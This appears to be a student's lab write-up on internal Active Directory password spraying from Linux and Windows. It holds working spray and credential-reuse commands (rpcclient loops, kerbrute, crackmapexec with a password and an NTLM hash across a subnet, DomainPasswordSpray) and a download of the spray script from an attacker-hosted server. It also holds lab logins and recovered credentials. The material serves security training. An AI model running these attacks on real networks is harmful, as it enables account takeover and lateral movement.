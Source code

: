 # Internal Password Spraying - from Linux

Different tools to spray Welcome1 Password :
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" $TARGET | grep Authority; done
kerbrute passwordspray -d inlanefreight.local --dc $TARGET valid_users.txt  Welcome1
sudo crackmapexec smb $TARGET -u valid_users.txt -p Welcome1 | grep +

Validate credentials :
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

Local Administrator Password Reuse :

When we find a common used password (or hash), we can try to use onto other machines locally on the network

sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -p Welcome1 | grep +
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

# Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host : DomainPasswordSpray tool is highly effective :

Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue


## LAB

### Linux

ssh htb-student@$TARGET
HTB_@cademy_stdnt!

for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: mholliday, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT

### Windows

xfreerdp /u:htb-student /v:$TARGET
Academy_student_AD!

dir [DomainPasswordSpray] /s

C:\Users\htb-student>dir [DomainPasswordSpray] /s
 Volume in drive C has no label.
 Volume Serial Number is B8B3-0D72
File Not Found

wget https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1
python3 -m http.server

(New-Object Net.WebClient).DownloadFile('http://10.10.15.153:8000/DomainPasswordSpray.ps1','DomainPasswordSpray.ps1')

cd C:\Tools\
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue

[*] SUCCESS! User:dbranch Password:Winter2022
